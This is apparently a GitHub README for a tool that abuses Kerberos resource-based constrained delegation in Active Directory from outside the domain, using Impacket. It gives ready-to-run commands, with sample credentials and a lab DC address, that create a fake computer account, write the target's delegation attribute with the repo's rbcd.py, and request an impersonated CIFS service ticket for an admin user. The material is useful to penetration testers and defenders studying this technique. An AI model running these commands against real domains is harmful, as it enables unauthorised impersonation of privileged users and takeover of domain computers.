

# Abusing Kerberos Resource-Based Constrained Delegation

## TL;DR

This repo is about a practical attack against Kerberos Resource-Based
Constrained Delegation in a Windows Active Directory Domain.

> The difference from other common implementations is that we are
> launching the attack **from outside of the Windows Domain**, not from
> a domain joined (usually Windows) computer.

The attack is implemented **using only Python3
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket)**
(and its dependencies). Tested on [Arch](https://www.archlinux.org/)
with up-to-date Impacket (0.9.21 as of writing).



## The Attack

In summary, without any deep details, the attack targets 
a domain computer, exactly service principals related to the
target domain computer.

What we need here as prerequisites:

* a domain account with write access to the target computer (exactly write access to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer domain object)
* permission to create new computer accounts (this is usually default, see `MachineAccountQuota`)
* LDAP (389/tcp) and SAMR (445/tcp) (or LDAPS (636/tcp)) access to the DC.
* Kerberos (88/tcp) access to the DC

The attack path in very high level:

1. Create a fake computer
2. Abuse `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target
3. Request impersonated Service Tickets (S4U) for the target computer

Benefit:

* Impersonated Service Tickets may allow high-level access to services on
the target like CIFS, HTTP, etc, if the impersonated account has privileges.
Sometimes takeover of the computer.

## Common toolsets

The common toolsets for this attack operate on a domain-joined
Windows Computer using:

* [Powermad](https://github.com/Kevin-Robertson/Powermad) for adding new computer accounts
* [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) dev branch for `abusing msDS-AllowedToActOnBehalfOfOtherIdentity`
* [Rubeus](https://github.com/GhostPack/Rubeus) for S4U ticket operations

## Impacket implementation

This implementation uses pure [Impacket](https://github.com/SecureAuthCorp/impacket) from outside the Domain.

### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer (called `evilcomputer`):

```
addcomputer.py -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.33.203 ecorp.local/test:ohW9Lie0
```

### Modifying delegation rights

Implemented the script [rbcd.py](./rbcd.py) found here in the repo which
adds the related security descriptor of the newly created EVILCOMPUTER to the
`msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
./rbcd.py -f EVILCOMPUTER -t WEB -dc-ip 192.168.33.203 ecorp\\test:ohW9Lie0
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example.
For help and an example call the script without options.

### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an
S4U2Self query and get an impersonated Service Ticket for the
target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/WEB.ecorp.local -impersonate admin -dc-ip 192.168.33.203 ecorp.local/EVILCOMPUTER$:ev1lP@sS
```

The above command fetches a CIFS Service Ticket on behalf of the targetted domain user `admin`
and stores it in the file `admin.ccache`.

After adding the file path to the KRB5CCNAME variable the ticket is usable for
Kerberos clients.

```
export KRB5CCNAME=`pwd`/admin.ccache
klist
```

## References

For details about abusing Resource-Based Constrained Delegation:

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/

And one of the most comprehensive presentations about Kerberos Attacks:

* [Constructing Kerberos Attacks with Delegation Primitives slides](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf) at Defcon by [Elad Shamir](https://twitter.com/elad_shamir) and [Matt Bush](https://twitter.com/3xocyte)
